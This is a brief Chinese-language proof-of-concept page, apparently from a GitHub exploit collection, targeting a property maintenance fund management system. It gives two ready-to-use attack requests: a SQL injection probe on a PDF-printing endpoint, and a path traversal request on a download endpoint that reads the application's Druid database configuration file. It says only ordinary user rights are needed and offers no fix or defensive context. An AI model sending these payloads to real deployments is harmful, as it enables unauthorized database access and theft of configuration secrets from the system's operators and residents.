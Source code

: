## 物业专项维修资金管理系统漏洞
利用条件：所有漏洞均需要普通用户权限

## sql注入漏洞
```
/property/propertyRightAlteration/printManyPdf?id=1+and+1=1a
```

![81a445dd5c9a5cf1b569dd4216b1bec8](https://github.com/wy876/POC/assets/139549762/9210a9de-0bfe-4772-84bf-4d2873425569)

![3fb59376b871a4fa375e8b3e6c440067](https://github.com/wy876/POC/assets/139549762/8716165d-9b8c-4ba4-95f2-9fe674267595)


## 文件读取漏洞
```
/common/download?fileName=../../wxzj/application-druid.yml
```

![6605ac7e553fc1d894fa7bc3dceb66b3](https://github.com/wy876/POC/assets/139549762/eccbbbf9-7d99-400e-8e96-8e3673b0e45c)


## 漏洞来源
- https://mp.weixin.qq.com/s/wNCafw5pBGTnUEVUoDjbtg
